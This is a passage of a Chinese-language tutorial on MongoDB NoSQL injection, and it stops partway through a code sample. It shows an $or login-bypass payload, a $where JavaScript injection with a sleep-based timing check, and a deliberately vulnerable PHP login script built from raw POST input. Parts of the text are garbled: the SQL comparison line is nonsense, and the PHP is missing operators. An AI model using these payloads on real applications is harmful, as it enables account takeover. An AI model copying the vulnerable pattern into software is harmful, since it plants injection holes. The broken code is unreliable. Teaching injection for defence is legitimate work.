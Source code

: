 ```sql
{'usernmae':'admin', 'password':'admin123'}
```
- 但由于没有很好地对输入的数据进行过滤和校验，攻击者可以构造如下 Payload 进行攻击

```sql
username=admin', $or: [ {}, {'a': 'a&password='}], $comment: '123456
```
- 后端拼接后，语句如下，此时只要用户名是正确的这个查询就可以成功，这种手法与 SQL 注入比较相似
- 这样原本正常的查询语句会被转换为忽略密码的，在无需密码的情况下直接登录用户账号，因为 () 内的条件总是永真的

```sql
{'username':'admin', $or: [ {}, {'a': 'a', password:''}], $comment: '123456'}

select * from logins where username = 'admin' and (password true<or ('a'='a' and password = '')))
```
## JavaScript 注入

- MongoDB Server 是支持 JavaScript 的，可以使用 JavaScript 进行一些复杂事务和查询，也允许在查询的时候执行 JavaScript 代码，但是如果传递不干净的用户输入到这些查询中，则可能会注入任意的 JavaScript 代码，导致非法的数据获取或篡改

### $where 操作符
- 先了解一下 `$where` 操作符，在 MongoDB 中，`$where` 操作符可以用来执行 JavaScript 代码，将 JavaScript 表达式的字符串或 JavaScript 函数作为查询语句的一部分，在 MongoDB 2.4 之前，通过 `$where` 操作符使用 map-reduce、group 命令甚至可以访问到 Mongo Shell 中的全局函数和属性，如 db，也就是说可以在自定义的函数里获取数据库的所有信息

```sql
db.users.find({ $where: "function(){return(this.username == 'admin')}" })

{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "admin", "password" : "admin123" }
```
- 使用 `$where` 关键字后，JavaScript 将会执行并返回 "admin"，然后查询出 username 为 admin 的数据
- 某些易受攻击的 PHP 应用程序在构建 MongoDB 查询时可能会直接插入未经过处理的用户输入，例如从变量中 `$username` 获取查询条件：
```sql
db.users.find({ $where: "function(){return(this.username == $username)}" })
```
- 接着攻击者可以注入恶意的字符串，例如 `'d1no'; sleep(5000)` ，此时 MongoDB 执行的查询语句为
```sql
db.users.find({ $where: "function(){return(this.username == 'd1no'; sleep(5000))}" })
```
- 如果此时服务器有 5 秒钟的延迟则说明注入成功

- index.php 内容如下

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];
$function = "
function() { 
	var username = '".$username."';
	var password = '".$password."';
	if(username == 'admin' && password == 'admin123'){
		return true;
	}else{
		return false;
	}
}";
$query = new MongoDB\Driver\Query(array(
    '$where' =$function
));
$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count 0) {
	foreach ($result as $user) {
		$user = ((array)$user);
```